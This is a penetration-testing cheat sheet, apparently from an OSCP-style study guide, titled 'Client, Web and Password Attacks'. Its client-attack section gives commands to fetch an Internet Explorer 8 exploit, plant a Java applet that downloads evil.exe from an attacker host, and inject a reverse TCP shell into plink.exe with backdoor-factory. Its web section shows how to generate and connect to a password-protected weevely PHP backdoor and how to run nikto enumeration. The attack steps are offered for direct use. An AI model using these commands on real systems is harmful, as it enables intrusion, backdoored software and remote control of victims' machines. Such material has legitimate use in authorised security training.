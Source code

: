 
Client, Web and Password Attacks
==============================================================================================================================

-   <span id="_pcjm0n4oppqx" class="anchor"><span id="_Toc480741817" class="anchor"></span></span>Client Attacks
    ------------------------------------------------------------------------------------------------------------

    -   MS12-037- Internet Explorer 8 Fixed Col Span ID  
        wget -O exploit.html
        <http://www.exploit-db.com/download/24017>  
        service apache2 start

    -   JAVA Signed Jar client side attack  
        echo '&lt;applet width="1" height="1" id="Java Secure"
        code="Java.class" archive="SignedJava.jar"&gt;&lt;param name="1"
        value="http://$ip:80/evil.exe"&gt;&lt;/applet&gt;' &gt;
        /var/www/html/java.html  
        User must hit run on the popup that occurs.

    -   Linux Client Shells  
        [*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    -   Setting up the Client Side Exploit

    -   Swapping Out the Shellcode

    -   Injecting a Backdoor Shell into Plink.exe  
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip
        -P 4444 -s reverse\_shell\_tcp

-   <span id="_n6fr3j21cp1m" class="anchor"><span id="_Toc480741818" class="anchor"></span></span>Web Attacks
    ---------------------------------------------------------------------------------------------------------

    -   Web Shag Web Application Vulnerability Assessment Platform  
        webshag-gui

    -   Web Shells  
        [*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)  
        ls -l /usr/share/webshells/

    -   Generate a PHP backdoor (generate) protected with the given
        password (s3cr3t)  
        weevely generate s3cr3t  
        weevely http://$ip/weevely.php s3cr3t

    -   Java Signed Applet Attack

    -   HTTP / HTTPS Webserver Enumeration

        -   OWASP Dirbuster

        -   nikto -h $ip

